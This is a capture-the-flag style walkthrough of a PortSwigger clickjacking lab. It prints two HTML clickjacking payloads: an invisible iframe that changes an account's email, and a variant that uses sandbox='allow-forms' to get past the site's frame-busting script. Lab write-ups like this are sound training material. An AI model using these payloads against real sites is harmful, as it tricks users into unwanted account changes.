

### Clickjacking with a frame buster script : APPRENTICE

---

###### Solving this lab from Burp's browser.

> Given credentials `wiener:peter`.

> Exactly the same approach as [[Portswigger/Clickjacking/Lab 2|Lab 2]].
> Trying the same payload.

```HTMl
<head> 
	<style> 
		#target_website { 
			position:relative; 
			width:600px; 
			height:600px; 
			opacity:0.00001; 
			z-index:2; 
		} 
		#decoy_website { 
			position:absolute; 
			top:450px; 
			left:100px; 
			z-index:1; 
		} 
	</style> 
</head>
<body> 
	<div id="decoy_website"> click </div> 
	<iframe id="target_website" src="https://0a4b008d04e7411280802b310040007a.web-security-academy.net/my-account?email=newnew@new.com"> </iframe> 
</body>
```

> Putting the payload in the exploit server, storing it, and then viewing it isn't working.
> When i hover over the `click` text the mouse doesn't turn to the pointer, this means that the frame was removed.

> To test this theory, i made the opacity for the target website 1, and then viewed the exploit again and this was the result.



> This means there are frame busting scripts.
> To overcome them, we add `sandbox="allow-forms"` to the `iframe` element.

```HTML
<head> 
	<style> 
		#target_website { 
			position:relative; 
			width:600px; 
			height:600px; 
			opacity:0.00001; 
			z-index:2; 
		} 
		#decoy_website { 
			position:absolute; 
			top:450px; 
			left:100px; 
			z-index:1; 
		} 
	</style> 
</head>
<body> 
	<div id="decoy_website"> click </div> 
	<iframe id="target_website" src="https://0a4b008d04e7411280802b310040007a.web-security-academy.net/my-account?email=newnew@new.com" sandbox="allow-forms"> </iframe> 
</body>
```

> Now when we store and view, we see that the mouse pointer shows when we hover over `click`.
> Delivering the exploit to victim completes the lab.

---
